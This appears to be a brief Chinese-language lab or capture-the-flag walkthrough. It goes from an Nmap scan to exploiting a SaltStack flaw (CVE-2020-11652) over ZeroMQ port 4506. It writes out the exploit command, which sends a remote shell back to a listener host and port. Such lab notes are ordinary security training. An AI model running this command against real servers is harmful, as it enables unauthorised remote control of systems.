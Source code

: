 # Nmap

![image](https://hackmd.io/_uploads/BkF99G68a.png)

- 發現有開自定義port，看一下ZerMQ

![image](https://hackmd.io/_uploads/HJhQiG6Ua.png)

- 發現saltstack的RCE


- 嘗試用searchsploit找相關的exploit

![image](https://hackmd.io/_uploads/HJL7wnT8T.png)

- 嘗試後不行，改找開源的github

![image](https://hackmd.io/_uploads/Bk_p3368a.png)

- Download exploit
    - `pip install salt`
    - `python3 CVE-2020-11652.py --master $target --port 4506 -lh 192.168.45.161 -lp 80 --exec-choose master`

![image](https://hackmd.io/_uploads/SyYPpnaU6.png)

![image](https://hackmd.io/_uploads/Hyeqah6Ia.png)




